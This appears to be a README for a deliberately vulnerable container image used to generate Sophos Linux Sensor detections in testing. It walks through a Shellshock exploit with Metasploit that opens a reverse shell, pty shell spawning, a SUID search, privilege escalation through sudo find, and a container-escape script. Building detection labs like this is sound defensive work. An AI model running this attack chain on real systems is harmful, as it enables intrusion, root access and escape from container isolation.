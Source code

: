# sophShock

This image is for generating Sophos Linux Sensor detections.
For testing purposes only, advised not to run this in a public facing manner.

#Walk Thru

-Metasploit:
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set RHOST <ip addr>
set RPORT 8080
set LHOST <ip addr>
set LPORT <reverse listening port>
set TARGETURI /cgi-bin/shockme.cgi 
run 

-establish tty
python -c 'import pty; pty.spawn("/bin/bash")'

-switch to user with sudo privileges
 (will add recon file with pw for sophy user in next update)

-find files with SUID bit set
find / -perm -4000 2>/dev/null

-exploit find binary
sudo find . -exec /bin/bash -i \; -quit
(interactive shell detection from SLS)

- run escape.sh from root directory
(userland container escape detection)



#references:
- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
- https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
